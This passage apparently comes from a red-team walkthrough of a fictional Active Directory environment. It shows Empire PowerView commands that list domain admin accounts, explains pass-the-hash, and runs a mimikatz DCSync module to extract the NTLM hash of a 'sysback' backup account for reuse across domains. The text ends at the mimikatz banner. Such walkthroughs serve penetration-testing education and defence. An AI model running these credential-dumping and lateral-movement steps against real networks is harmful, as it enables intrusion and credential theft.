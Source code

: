 The scan confirms that port 135 (RPC) is open on the FTP server. With this information, if we manage to gain privileged credentials on the GBSALES domain, we can effectively target the SL0210 FTP server without needing to deploy a reverse agent on GBSALES domain controllers.

To continue our reconnaissance, we list domain admin accounts in the GBSALES domain:

```
(Empire: DCshop) > usemodule situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBSALES.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a

distinguishedname                                      name          objectsid                                         admincount
--------------------------------------------------------------------------------------------------------------
CN=Administrator,CN=Users,DC=GBSALES,DC=CORP          Administrator S-1-5-21-2376009117-2296651833-4279148973-500  1
CN=joe_adm,CN=Users,DC=GBSALES,DC=CORP                joe_adm      S-1-5-21-2376009117-2296651833-4279148973-1116  1
CN=phoebe_adm,CN=Users,DC=GBSALES,DC=CORP             phoebe_adm   S-1-5-21-2376009117-2296651833-4279148973-1121  1
CN=sysback,CN=Users,DC=GBSALES,DC=CORP                sysback     S-1-5-21-2376009117-2296651833-4279148973-1117  1
```

Interestingly, the same sysback account, presumably a backup account, appears on both GBSHOP and GBSALES domains. The domain admin accounts on GBSHOP were: Administrator, georges_adm, rachel_adm, sysback.

Given that sysback is present in both domains, there’s a possibility that the password for this account might be the same across both domains. It’s worth trying the same credentials to see if they work on GBSALES.

*Note: sysback is probably used to manage and perform system backups and restores. Backup accounts usually have elevated privileges to ensure they can access and secure data across various systems. Besides backups, such an account might be involved in administrative tasks like system maintenance, configurations, and managing backup schedules.*

To exploit the sysback account from the GBShop domain and authenticate to the GBSALES domain, we will leverage a technique known as pass-the-hash. This method allows us to authenticate without cracking the password hash due to the nature of NTLM authentication in Windows.

When a server requests authentication from a client, the client sends a response that includes a hashed value of the password combined with a random number. Specifically, it sends hash(H + random_number), where H is the NTLM hash of the password. This means that having the NTLM hash alone is sufficient to generate a valid authentication response. Despite being a technique from about 20 years ago, pass-the-hash remains a potent method for bypassing authentication.

To obtain the NTLM hash for the sysback account, we use the DCSync module:

```
(Empire: DCshop) > usemodule credentials/mimikatz/dcsync
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSHOP.CORP
(Empire: dcsync) > run
Job started: Debug32_sd5v1

Hostname: SV0199.GBSHOP.CORP / S-1-5-21-2376009117-2296651833-4279148973
.#####.
 mimikatz 2.1 (x64) built on Mar 31 2016
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
## \ / ##
 Benjamin DELPY `gentilkiwi`
'## v ##'
 http://blog.gentilkiwi.com/mimikatz (oe.eo)
```